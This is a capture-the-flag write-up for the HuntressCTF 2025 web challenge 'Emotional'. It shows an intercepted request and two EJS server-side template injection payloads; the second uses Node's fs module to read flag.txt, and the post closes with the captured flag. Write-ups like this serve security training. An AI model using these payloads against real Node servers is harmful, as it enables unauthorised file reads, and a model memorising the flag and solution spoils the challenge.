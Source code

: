 ```yaml
---
title: "HuntressCTF 2025 - Emotional"
date: 2025-10-06
categories: [Capture The Flags, HuntressCTF2025]
tags: [CTF, Writeups, Web, SSTI]
---
```


## Challeneg Prompt

Don't be shy, show your emotions! Get emotional if you have to! Uncover the flag.

---

The Challenge:

![web page](/assets/img/huntressCTF2025/emotional/web.png)

There is a interface through which we can select an emoji and update the page by clicking on the "update emotion" button

Setting up burp, capturing the request and then sending it to repeater

![burp](/assets/img/huntressCTF2025/emotional/burp.png)

![repeater](/assets/img/huntressCTF2025/emotional/repeater.png)

Here, we can see the site is running on nginx

---

Capturing the request for updating the emotion

```
POST /setEmoji HTTP/1.1
Host: 10.1.45.109
Content-Length: 18
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: */*
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.1.45.109
Referer: http://10.1.45.109/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,hi;q=0.8,zh-TW;q=0.7,zh;q=0.6
Connection: keep-alive

emoji=%F0%9F%98%8A
```

Since we have to read the file on the server, possible options are SSTI, code injection to get a reverse shell and then reading. Let us start with trying for SSTI

---

### Payload 1

```
emoji=<%= 7*7 %>
```

Sending the request and here we can see it is shown as it is on the interface

![payload1_response](/assets/img/huntressCTF2025/emotional/payload1.png)

Upon loading the page again and seeing the response in repeater, we can see it is rendered as 49, therefore SSTI is confirmed

![payload1_reponse](/assets/img/huntressCTF2025/emotional/payload1_response.png)

so going ahead with SSTI to read the flag.txt

---

### Payload 2

```
emoji=<%= global.process.mainModule.require('fs').readFileSync('flag.txt', 'utf8') %>
```

*Explanation: <%= global.process.mainModule.require('fs').readFileSync('flag.txt', 'utf8') %> exploits EJS server-side template injection. It accesses Node’s global object to require the filesystem module and reads the contents of flag.txt, which is then output directly in the rendered HTML. This allows us to retrieve the flag from the server.*

Re-loading the page and seeing the response in burp 

![flag](/assets/img/huntressCTF2025/emotional/flag.png)

Flag: flag{8c8e0e59d1292298b64c625b401e8cfa}